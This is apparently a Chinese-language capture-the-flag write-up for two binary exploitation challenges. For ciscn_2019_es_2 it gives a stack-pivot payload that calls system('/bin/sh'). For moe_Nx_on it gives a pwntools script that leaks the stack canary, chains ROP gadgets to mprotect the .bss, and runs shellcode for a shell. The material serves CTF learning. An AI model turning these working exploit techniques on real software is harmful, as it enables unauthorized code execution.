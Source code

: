 ### ciscn_2019_es_2（栈迁移
>提供两次read&printf，提供system函数，八个字节的栈溢出
>这道题不是使用shellcode，而是栈迁移，使得调用新的函数（system）时，栈空间不是新的，是自己设计的栈。实际上调用了新函数，但是复用原来的栈
```
两次leave
1. mov esp ebp     一起来到被修改过的数据地址
2. pop ebp             ebp进入新的栈空间
3. pop eip             进入被修改的ret地址，也就是第二个leave

4. mov esp ebp    esp也来到新的栈空间，两个指针汇合
5. pop ebp           esp向下走一个单位，ebp保持不变
6. pop eip             进入新的栈空间的来执行命令
```

第一次read，payload用来获得ebp存放的数据的地址，根据这个地址，根据偏移，获得缓冲区的位置：
```python
payload=b'a'*0x27+b'b'

p.send(payload)

p.recvuntil('b')

old_ebp=u32(p.recv(4))
```
第二次read，payload利用溢出，实现栈迁移，复用缓冲区为栈，设计栈空间，实现getshell
```python
payload2=b'aaaa'#根据步骤5，esp会往下走一个单位，所以这个被跳过，随便填充一些

payload2+=p32(system_addr)#根据步骤5，这个会被pop给eip，执行操作，进入system

payload2+=b'dddd'#system返回后的地址

payload2+=p32(old_ebp-0x28)#指下面的字符串

payload2+=b'/bin/sh\x00'#参数

payload2=payload2.ljust(0x28,b'p')#填充p到0x28个字节

payload2 += p32(old_ebp - 0x38)#迁移操作

payload2 += p32(leave_ret)#迁移操作

p.sendline(payload2)

p.interactive()
```

### moe_Nx_on!

> 有canary，先利用第一个四字节溢出获取canary

> 漏洞在于buf2，buf2虽然在bss，但会在memcpy中传给缓冲区，造成溢出

> v5填个负数即可
```c
unsigned __int64 func()
{
  int v0; // edx
  int v1; // ecx
  int v2; // r8d
  int v3; // r9d
  int v5; // [rsp+Ch] [rbp-24h] BYREF
  char v6[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  puts("Wellcome to MoeCTF2024!");
  puts("This time.....");
  puts("NX is enabled!");
  puts("Your id?");
  read(0LL, v6, 0x19LL);
  puts("Confirm your id:");
  puts(v6);
  puts("Your real name?");
  read(0LL, &buf2, 0x100LL);
  puts("Use your real name as id?");
  puts("give me the size of your real name , 0 means quit");
  fflush(stdin);
  _isoc99_scanf((unsigned int)"%d", (unsigned int)&v5, v0, v1, v2, v3);
  if ( v5 )
  {
    if ( v5 > 16 )
      puts("Number out of range!");
    else
      j_memcpy(v6, &buf2, v5);
  }
  return v7 - __readfsqword(0x28u);
}
```
```


```
```python
from pwn import*
context(log_level='debug',arch='amd64',os='linux')
#p=process('./nx_on')
p=remote('127.0.0.1',34105)
sl = lambda s :p.sendline(s)
sd = lambda s :p.send(s)
rc = lambda s :p.recv(s)
ru = lambda s :p.recvuntil(s)
rl = lambda   :p.recvline()

def debug():
    gdb.attach(p)
    pause(1)

mprotect_addr = 0x450B90
pop_rdi = 0x000000000040239f
pop_rsi = 0x000000000040a40e
pop_rdx_rbx = 0x000000000049d12b
bss_addr = 0x4E5B60

ru('id')
sd(b'a'*0x18+b'b')
ru('ab')
canary = b'\x00'
canary += p.recv(7)
canary = u64(canary)
print(hex(canary))
payload = b'A' * 0x18 + p64(canary) * 2 + p64(pop_rdi) + p64(0x4e5000) + p64(pop_rsi) + p64(0x2000) + p64(pop_rdx_rbx) + p64(7) * 2 + p64(mprotect_addr) + p64(bss_addr + 0x18 + 0x8 * 11) + asm(shellcraft.sh()) 
sd(payload)
ru('size')
#debug()
sl(b'-1111')

p.interactive()


```

